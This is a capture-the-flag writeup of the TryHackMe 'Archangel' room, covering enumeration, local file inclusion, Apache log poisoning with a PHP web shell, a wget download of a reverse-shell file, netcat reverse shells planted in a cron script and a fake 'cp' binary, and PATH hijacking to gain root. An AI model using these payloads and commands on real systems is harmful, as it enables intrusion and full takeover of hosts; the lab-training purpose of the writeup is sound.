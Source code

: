 +++ 
draft = false
date = 2021-02-06T01:06:04+05:30
title = "Archangel TryHackMe Writeup"
description = "Writeup for Archangel room TryHackMe"
slug = ""
authors = ["d4rkn1gh7"]
tags = ["ctf","tryhackme","easy_box"]
categories = ["TryHackMe"]
externalLink = ""
series = ["TryHackMe"]
+++
# [Archangel](https://tryhackme.com/room/archangel) TryHackMe Writeup


![](/TryHackMe/Archangel/BoxImage.jpeg)


This room involves LFI fo initial access , horizontal privilege escalation , then unsecure PATH variable exploitation .



## __First Stage : Enumeration__


Let's fire up nmap .

```
# Nmap 7.91 scan initiated Fri Feb  5 19:23:46 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.100.228
Warning: 10.10.100.228 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.100.228
Host is up, received conn-refused (0.15s latency).
Scanned at 2021-02-05 19:23:47 IST for 780s
Not shown: 65454 closed ports, 79 filtered ports
Reason: 65454 conn-refused and 79 no-responses
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPrwb4vLZ/CJqefgxZMUh3zsubjXMLrKYpP8Oy5jNSRaZynNICWMQNfcuLZ2GZbR84iEQJrNqCFcbsgD+4OPyy0TXV1biJExck3OlriDBn3g9trxh6qcHTBKoUMM3CnEJtuaZ1ZPmmebbRGyrG03jzIow+w2updsJ3C0nkUxdSQ7FaNxwYOZ5S3X5XdLw2RXu/o130fs6qmFYYTm2qii6Ilf5EkyffeYRc8SbPpZKoEpT7TQ08VYEICier9ND408kGERHinsVtBDkaCec3XmWXkFsOJUdW4BYVhrD3M8JBvL1kPmReOnx8Q7JX2JpGDenXNOjEBS3BIX2vjj17Qo3V
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKhhd/akQ2OLPa2ogtMy7V/GEqDyDz8IZZQ+266QEHke6vdC9papydu1wlbdtMVdOPx1S6zxA4CzyrcIwDQSiCg=
|   256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBE3FV9PrmRlGbT2XSUjGvDjlWoA/7nPoHjcCXLer12O
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb  5 19:36:48 2021 -- 1 IP address (1 host up) scanned in 781.74 seconds
```

So open ports are :

* 22
* 80

Hence I visited the port 80.


![](/TryHackMe/Archangel/port80.png)



Hence we found a potential vhost __mafialive.thm__.

Let's add it in **/etc/hosts**.


Then I  visited it . We can find the first flag.


![](/TryHackMe/Archangel/firstflag.png)


I ran gobuster.

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://mafialive.thm/
[+] Threads:        50
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     js,txt,html,php
[+] Timeout:        10s
===============================================================
2021/02/05 20:08:17 Starting gobuster
===============================================================
/index.html (Status: 200)
/test.php (Status: 200)
/robots.txt (Status: 200)
```
Hence we get **test.php** so I visited .


![](/TryHackMe/Archangel/testphp.png)



So if we click the button we get 

![](/TryHackMe/Archangel/buttonclick.png)


So the parameter **view** gives a potential __LFI__ vuln.


So I opened burp and captured the request.


Hence I started trying every filter , only filter that worked was 

> php://filter/convert.base64-encode/resource=


![](/TryHackMe/Archangel/filter.png)



So we get the file in base64 format. Let's try for test.php

> php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php

![](/TryHackMe/Archangel/burp1.png)



So if we decode it we get.

```php
	
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: thm{<redacted>}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>

</html>
```


Hence we get the second flag .



## __Second Stage : Initial access as www-data__

Now we can see that the test.php is filtering "../.."

Hence we can use filter evasion techniques to bypass.

According to the hint given we have to poison apache log.

Let's do it.


> http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log

So we can see the log file .

![](/TryHackMe/Archangel/log1.png)

So we have to poisin the log by manupilating user-agent .

> \<?php system($_GET['shell']); ?>

![](/TryHackMe/Archangel/poison.png)



So next we can use this to download php reverse-shell file 

> mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log&shell=wget http://10.8.74.96:8000/shell.php


We can check it 

![](/TryHackMe/Archangel/wget.png)


Next we have to execute 

> mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log&shell=php shell.php




![](/TryHackMe/Archangel/www-data.png)


![](/TryHackMe/Archangel/user1.png)


## __Third Stage : www-data to archangel__

So after I linpeas I got this.


![](/TryHackMe/Archangel/crontab.png)


![](/TryHackMe/Archangel/helloworld.png)


So we can edit this file , let's add reverse shell into this .

> echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \<your vpn-ip> 4242 >/tmp/f " >> helloworld.sh

Hence we get a shell


![](/TryHackMe/Archangel/archangel.png)



## __Fourth Stage : archangel to root__


There is a file called backup which was interesting.


![](/TryHackMe/Archangel/file.png)

So it is a elf file , I transfered it to my local machine and used ghidra .


![](/TryHackMe/Archangel/ghidra.png)



We can see it is calling binary cp without proper path , we can use this to our advantage.



So the exploit is :

```bash
touch /tmp/cp
chmod +x /tmp/cp
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <vpn-ip> 4444 >/tmp/f" >> /tmp/cp
export PATH=/tmp:$PATH
./backup
```


Hence we get a shell.


![](/TryHackMe/Archangel/root.png)







